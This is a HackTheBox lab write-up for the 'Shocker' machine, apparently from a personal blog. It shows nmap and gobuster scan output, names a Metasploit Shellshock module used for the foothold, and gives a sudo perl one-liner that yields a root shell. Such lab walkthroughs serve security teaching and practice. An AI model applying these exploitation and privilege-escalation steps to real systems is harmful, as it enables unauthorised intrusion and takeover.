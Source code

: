 ```yaml
---
title: "HackTheBox - Shoker"
author: Nasrallah
description: ""
date: 2022-09-01 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, cve, rce, shellshock, sudo]
img_path: /assets/img/hackthebox/machines/shocker
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Shoker](https://app.hackthebox.com/machines/Shoker) from [HackTheBox](https://www.hackthebox.com). In this machine, we us the shellshock exploit to gain foothold, and a sudo misconfiguration gives us root access.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-30 13:22 EDT
Nmap scan report for 10.10.10.56
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are two open ports, port 80 running Apache web server and 2222 running SSH on a non-standard port.

### Web

Navigate to the web page.

![](1.png)

Nothing useful in this page, even it's source code. Let's run a directory scan.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/30 13:28:33 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/cgi-bin/             (Status: 403) [Size: 294]
/index.html           (Status: 200) [Size: 137]
/server-status        (Status: 403) [Size: 299]
===============================================================

```

The scan found **/cgi-bin**. Let's run another scan in this directory but this time we add the **sh** extension.

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.56/cgi-bin/ -x sh | tee scans/gobuster2                                    130 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              sh
[+] Timeout:                 10s
===============================================================
2022/08/30 14:48:23 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 298]
/.hta.sh              (Status: 403) [Size: 301]
/.htaccess.sh         (Status: 403) [Size: 306]
/.htpasswd            (Status: 403) [Size: 303]
/.htaccess            (Status: 403) [Size: 303]
/.htpasswd.sh         (Status: 403) [Size: 306]
/user.sh              (Status: 200) [Size: 118]
                                               
===============================================================
```

We found **user.sh** file.

## **Foothold**

From the machine's name, we can guess the the exploit we're going to use is `shellshock`(Apache mod_cgi). Let's fire up metasploit and use `exploit/multi/http/apache_mod_cgi_bash_env_exec` module.

![](2.png)

After setting up the required options, we run the exploit to get a shell.

![](3.png)

## **Privilege Escalation**

Let's check our privileges with `sudo -l`.

![](4.png)

We can run perl as root. let's go to [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#sudo).

![](5.png)

Running the following command gives us a root shell.

```bash
sudo perl -e 'exec "/bin/sh";'
```

![](6.png)

Got root! Congrats

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
